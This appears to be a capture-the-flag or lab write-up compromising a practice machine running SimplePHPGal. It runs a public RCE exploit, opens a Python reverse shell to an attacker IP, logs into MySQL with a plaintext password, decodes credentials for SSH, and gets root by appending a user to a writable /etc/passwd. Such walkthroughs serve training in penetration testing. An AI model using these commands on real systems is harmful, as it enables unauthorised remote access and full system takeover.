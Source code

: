 # 445 SMB
Found an unusual print$ share![](attachment/fda384114bc2141b87ea93b2f8b015ca.png)

# 80
![](attachment/699300a4a9c52f2344d113579854329a.png)
Website on port 80

So searching for exploits for this we end up with:
https://github.com/beauknowstech/SimplePHPGal-RCE.py
Now using it we didnt get a shell on most ports but port 21 works.
```bash
python3 SimplePHPGal-RCE.py http://192.168.195.58/ 192.168.45.236 21
```
![](attachment/1a0865989606323e3cbf892a2d14bde3.png)
Found 
![](attachment/04f6dfd74d0dd8a319eed92885987e41.png)

Then using another shell to get a stable shell:
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.236",21));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```
Now conencting to mysql:
```
mysql -h 127.0.0.1 -u root -pMalapropDoffUtilize1337 SimplePHPGal
```
now checking tables:
```
show tables;
select * from users;
```
![](attachment/70aafe860f4e053c6b032a7cce7558be.png)

Now base64 decoding twice:
![](attachment/62608841d7264dca2a226ce10e27a5df.png)

Now we can use this to ssh:
![](attachment/c89312f9c4e1757a07dc351f2ec1949a.png)

Then running linpeas we find writeable /etc/passwd:
![](attachment/35ecc8e7a411cee3bceae2ba2f3b1c6e.png)
So adding our own user:
```
openssl passwd 123
```
Now using this hash:
```
echo 'user3:SuIRCvQhtnOd6:0:0:root:/root:/bin/bash' >> /etc/passwd
```
![](attachment/2f83b4068b2c42d25bdaf4a20c13e163.png)

We can switch to our root user:
```
su user3
123
```
![](attachment/733d9c28251f5b2cdc31ba97578650c7.png)
